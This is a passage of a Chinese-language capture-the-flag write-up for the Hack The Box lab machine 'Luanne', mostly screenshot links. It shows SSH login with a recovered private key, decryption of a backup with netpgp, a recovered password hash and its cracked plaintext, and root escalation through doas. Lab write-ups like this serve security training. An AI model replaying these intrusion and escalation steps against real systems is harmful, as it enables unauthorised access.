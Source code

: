 得到私钥，ssh登录

```bash
nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa r.michaels@10.10.10.218
```

![]({{ site.url }}/assets/Luanne_218.assets/20201206175704967_2869.png)

![]({{ site.url }}/assets/Luanne_218.assets/20201206175903665_19356.png)


![]({{ site.url }}/assets/Luanne_218.assets/20201206180202582_16269.png)

`openssl aes-256-cbc -d -in devel_backup-2020-09-16.tar.gz.enc -out devel_backup-2020-09-16.tar.gz`

尝试了之前得到的密钥，但是密钥不对

![]({{ site.url }}/assets/Luanne_218.assets/20201206180813213_16950.png)


`netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=/tmp/devel_backup-2020-09-16.tar.gz`

![]({{ site.url }}/assets/Luanne_218.assets/20201207135722667_8220.png)

`tar -xf devel_backup-2020-09-16.tar.gz`

![]({{ site.url }}/assets/Luanne_218.assets/20201207135816642_7584.png)

![]({{ site.url }}/assets/Luanne_218.assets/20201207141440506_11176.png)

`webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.`

![]({{ site.url }}/assets/Luanne_218.assets/20201207141818497_23174.png)

`littlebear`


`doas -u root /bin/sh`

![]({{ site.url }}/assets/Luanne_218.assets/20201207142117624_15611.png)

